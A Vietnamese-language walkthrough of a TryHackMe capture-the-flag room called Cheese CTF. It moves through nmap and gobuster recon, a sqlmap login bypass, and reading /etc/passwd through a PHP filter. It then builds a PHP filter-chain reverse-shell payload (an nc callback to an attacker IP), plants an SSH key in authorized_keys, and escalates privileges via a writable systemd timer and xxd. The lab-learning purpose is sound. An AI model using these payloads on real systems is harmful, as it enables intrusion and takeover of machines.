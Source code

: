 ![image](https://hackmd.io/_uploads/HJJBnhkJ1g.png)

# Room info and Comment
## Room info
This room was inspired by a long cheese discussion and thread on the TryHackMe Discord, which included shadow, vain, sudo_veggies, and more.

## Comment
Bài lab này hay và xứng đáng với mức độ khó của nó

# Recon
## nmap 
Vì nmap cho ra rất nhiều kết quả nên ta sẽ phải rà theo các hành vi của port tiêu chuẩn là 80 (http)

![image](https://hackmd.io/_uploads/Skq6uTkyke.png)

Sau khi tìm hiểu thì có thể sử dụng option `sX` 
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sX 10.10.175.114
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-06 04:35 EDT
Nmap scan report for cheesectf.thm (10.10.175.114)
Host is up (0.22s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE         SERVICE
22/tcp   open|filtered ssh
80/tcp   open|filtered http
4444/tcp open|filtered krb524

Nmap done: 1 IP address (1 host up) scanned in 14.35 seconds
```
Tìm hiểu kỹ hơn ta thấy được server dùng `Apache`
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p22,80,4444 -sCV 10.10.175.114
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-06 04:37 EDT
Nmap scan report for cheesectf.thm (10.10.175.114)
Host is up (0.22s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b1:c1:22:9f:11:10:5f:64:f1:33:72:70:16:3c:80:06 (RSA)
|   256 6d:33:e3:bd:70:62:59:93:4d:ab:8b:fe:ef:e8:a7:b2 (ECDSA)
|_  256 89:2e:17:84:ed:48:7a:ae:d9:8c:9b:a5:8e:24:04:bd (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: The Cheese Shop
|_http-server-header: Apache/2.4.41 (Ubuntu)
4444/tcp open  mon     mon service monitoring daemon
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.46 seconds
```
## Port 80 - http
Ta được dẫn đến trang web ngoài login thì không có tính năng khác

![image](https://hackmd.io/_uploads/rJedOayk1g.png)

## gobuster
Kết quả khi sử dụng **gobuster** ta có path `/images`

![image](https://hackmd.io/_uploads/H1dT9Ty1yl.png)

`/images` có thể liên tưởng đến các cuộc tấn công đến file vì ta có thể xem ảnh của trang web qua đây 

![image](https://hackmd.io/_uploads/H1XXCT11Je.png)

# User flag
## sqlmap
Tính năng login lại không có đăng ký nên khả năng nó sẽ dính sqli. Sử dụng **sqlimap** để gửi các payload để bypass login 
```
┌──(kali㉿kali)-[~/Desktop]
└─$ sqlmap -r req     
```
Kết quả trả về của **sqlmap** khi ta có được đường dẫn đến `secret-script.php`

![image](https://hackmd.io/_uploads/rkJWG0ykye.png)

## PHP Wrapper
Từ trên ta truy cập vào đường dẫn `http://10.10.175.114/secret-script.php?file=supersecretadminpanel.html`

![image](https://hackmd.io/_uploads/rJM9MAy1kl.png)

Nhận thấy rằng nó có param `?file` đang đọc file ra từ server 

![image](https://hackmd.io/_uploads/BkmkXAJyyx.png)

Ta sẽ đọc thử file `/etc/passwd` bằng [PHP filter](https://www.php.net/manual/en/wrappers.file.php)
```
php://filter/read=convert.base64-encode/resource=/etc/passwd
```

Dcode trên cyberchef ta nhận được nội dung ngay

![image](https://hackmd.io/_uploads/SkcdQRkJkl.png)

Lợi dụng kỹ thuật trên để xem src của `/secret-script.php` và nó chỉ đơn giản là đọc file 

![image](https://hackmd.io/_uploads/SyNCLRJ1ke.png)

### RCE with PHP Filters Chain
Sau khi dùng một vài kỹ thuật nhỏ upload và ghi file đểvRCE không thành công thì mình lại phải google tìm cách khác : ) 

https://github.com/synacktiv/php_filter_chain_generator

Đây là cách RCE mà không cần phải upload file lên nhưng ta có thể thao túng được param (như đã làm được)

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>'
```

![image](https://hackmd.io/_uploads/SJ_KR011yx.png)

Kết quả thay vào:

![image](https://hackmd.io/_uploads/H1C5R0yy1x.png)

Tương tự ta sẽ viết payload để có reverse shell

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.202.137 1234 >/tmp/f"); ?>'
```

![image](https://hackmd.io/_uploads/SkJxmylJyx.png)

## Lateral Movement
Sau khi reverse shell thành công, ta vẫn chưa đọc được flag

![image](https://hackmd.io/_uploads/rklPXkgykx.png)

Sử dụng **linpeas** hoặc dùng lệnh này thì ta thấy được file `.ssh` có thể sửa
```
$ find /  -type f -writable 2>/dev/null | grep -Ev '^(/proc|/snap|/sys|/dev)'
/home/comte/.ssh/authorized_keys
/var/tmp/authorized_keys.swp
/etc/systemd/system/exploit.timer
```
Bây giờ đơn giản chỉ cần gen key ra và login bằng acc của mình

![image](https://hackmd.io/_uploads/BkzYDklkye.png)

Copy nội dung và chèn vào file `authorized_keys`

![image](https://hackmd.io/_uploads/r1Usvkl1yl.png)

```
echo 'YOUR SSH PUBLIC KEY' > /home/comte/.ssh/authorized_keys
```

Giờ thì login vs `id_rsa` của acc `comte`

![image](https://hackmd.io/_uploads/HkKwdygy1e.png)

Lấy user flag

![image](https://hackmd.io/_uploads/rk6oOJg1kx.png)

# Root flag
## sudo -l
```
comte@cheesectf:~$ sudo -l
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```
Như nãy ở trên, ta có thể biết được file `exploit.timer` có thể viết được. Từ file trên phát hiện ra rằng có một service phải được kích hoạt nên cd vào `/etc/systemd/system` và tìm một file có tên là `exploit.service` 

![image](https://hackmd.io/_uploads/rk_yyfekkx.png)

## Exploit xxd 
Từ nội dung trên ta thấy được `xxd` đang có trên hệ thống, thứ mà ta có thể thao túng nó để đọc file mà không cần quyền. Tham khảo [ở đây](https://gtfobins.github.io/gtfobins/xxd/#suid)

Nhưng vì chưa được kích hoạt vì ở file `exploit.timer` time đang chưa set nên ta sẽ sửa 0 để kích hoạt

![image](https://hackmd.io/_uploads/HJP-xGx1Jg.png)

Kích hoạt lại 

![image](https://hackmd.io/_uploads/BkkQGzlyJx.png)

Sau đó chạy `xxd` và hoàn thành Room

![image](https://hackmd.io/_uploads/HJFSfGxkke.png)

![image](https://hackmd.io/_uploads/HkUOzflkJl.png)



